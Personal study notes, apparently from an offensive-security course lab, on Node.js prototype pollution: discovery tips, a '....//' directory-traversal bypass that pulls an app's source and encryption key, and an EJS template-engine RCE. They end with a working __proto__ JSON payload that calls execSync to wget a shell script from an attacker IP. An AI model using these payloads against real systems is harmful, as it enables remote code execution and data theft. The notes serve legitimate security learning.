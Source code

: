 # Blackbox
- Prototype pollution is usually possible through serialization of a JSON payload, because it is not possible to directly pass javascript object within HTTP requests otherwise.
- It's important to keep in mind that blackbox techniques are abrasive and might lead to denial of service of the target application. Unlike reflected XSS, prototype pollution will continue affecting the target application until it is restarted.
- Not all prototype pollution vulnerabilities come from the ability to inject "__proto__" into a JSON object. Some may split a string with a period character ("file.name"), loop over the properties, and set the value to the contents. In these situations, other payloads like "constructor.prototype" would work instead of "__proto__". These types of vulnerabilities are more difficult to discover using blackbox techniques.  
Overwritting the **toString** function is one of the more reliable tests
# Whitebox
- Apparently using square brackets to access an array protects computed properties from prototype pollution, need to understand why.
- According to offsec prototype pollution is more likely to be found within a library the application uses rather than its source code.
  - of course this does not exclude an application's source code from code review but it is important to keep in mind in terms of low hanging fruit.
## searching for prototype pollution within an applications libraries
We would want to list an applications packages with:
```bash
npm list -prod -depth 1
```
Note that we limit the depth here to first order packages in the dependency tree since the further we get into the dependency tree the less likely it is for us to be able to reach that code from the application, e.g. low hanging fruit.

```bash
npm list -prod -depth 1 | grep "merge\|extend"
```
```powershell
npm list -prod -depth 1 | sls -Pattern "merge|extend"
```

Another and perhaps better way of searching for ***known*** vulnerabilities in an applications packages is by using npm audit.
```bash
npm audit
```
## extramiles
### 1
We can use the **hasOwnProperty** method to trigger another prototype pollution error.  
```json
"__proto__" : {
  "hasOwnProperty":"applesauce"
}
The most important thing I learned hhere was how to generate a list of suitable targets.  
In a browsers developer tools we can:
1. create a new **default** object
```javascript
let s = new Object
```
2. list out all of this objects properties
```
s.getownproperties()
```
3. the properties are
```
constructor
hasOwnProperty
isPrototypeOf
propertyIsEnumerable
toLocaleString
toString   
valueOf
```
### 2
The directory traversal is on the /files route.  
The intended behavior is to only allow downloading of files places within the **shared** directory.  
There is a trivial protection of filtering out **../** sequences to prevent file traversal which we can bypass with **....//**.  
Effectively the inner **../** gets stripped out.  
A request to download a file then looks like:  
```powershell
iwr -Uri http://chips/files/....//app.js -SkipHttpErrorCheck
```
pulling the encryption key:
```powershell
iwr -Uri http://chips/files/....//settings/clientOptions.json -SkipHttpErrorCheck
```
# Prototype Pollution Exploitation
- A useful prototype pollution exploit, ***in terms of RCE***, is application- and library-dependent. Ideally we want to find a point in the application where undefined variables are appended to a child_process.exec, eval, vm.runInNewContext function, or something like a templating engine.
- A useful prototype pollution exploit, ***in terms of the RBAC within WebAPP***, would allow us to overwrite a property such as **isAdmin** and thus grant ourselves admin privileges within the application itself.
# ejs
first this we must do is set ejs to be the template engine e.g.  
```
TEMPLATING_ENGINE=ejs docker-compose up
```
A better way with posh:  
```powershell
Import-Module Posh-SSH;
[string]$userName = 'student'
[string]$userPassword = 'studentlab'
[string]$machine = 'chips'
[securestring]$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
[pscredential]$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)

$worker = New-SSHSession -ComputerName $machine -Credential $credObject
$worker
$result = Invoke-SSHCommand -Command 'docker-compose -f /home/student/chips/docker-compose.yml down && export TEMPLATING_ENGINE=ejs && docker-compose -f /home/student/chips/docker-compose.yml up -d' -SSHSession $worker
$result
iwr -Uri http://chips | sls -Pattern '<!-- Using EJS as Templating Engine -->' | % -process {$_.Matches.Value}
```
The main idea here is to dig into the source code of the template engine library and find the logic where the template is rendered. That is the ideal location to find a variable to pollute.

We can use get-ejs-esc-token.ps1 to get an rdp token that will trigger the esc error.  
The application internally uses a guaclite websocket tunnel to reach the **/guaclite** endpoint and it pulls the token from **window.location.search** so in order to reach it with standard http we would have use a headless browser in order to populate **window.location.search** by visiting **http://chips/rdp?token=blah&width=num&height=num** triggering the **rdp()** function in **/frontend/index.js**.  
Otherwise standard powershell requests to the guac endpoint are parsed by the files enpdpoint thus return 404.  
So instead we get an rdp token to trigger the **esc** error and paste that into burp where we have the **/guaclite** request.  
```
. ./get=ejs-esc-token.ps1
```

## ejs rce & extramile
### Exercises

Follow along with this section but connect to the remote debugger and observe the prototype pollution exploit.  
Obtain a shell.

### Extra Mile

Earlier, we used the escape variable to detect if the target is running EJS. We can also use this variable to obtain RCE with some additional payload modifications. Find how to obtain RCE by polluting the escape variable.

The one turned out to be pretty simple, really just had to use the debugger and step through the code line by line from the point of error.  
On line 625 in ***node_modules/ejs/lib/ejs.js*** there is the following logic:  
```js
if (opts.client) {
  src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
  if (opts.compileDebug) {
    src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
  }
}
```
Basically by stepping through the code with the debugger, client was set to false so the proto pollution of ***escape*** completely jumped of this line of code.  
Naturally then I made the logic of the if statement evaluate to true by adding a ***client*** property.  
So the json payload looks like:  
```json
"__proto__" : {
  "client": "true",
  "escape":"function(x){process.mainModule.require('child_process').execSync('/usr/bin/wget http://192.168.119.154/shell.sh');}"
}
``` 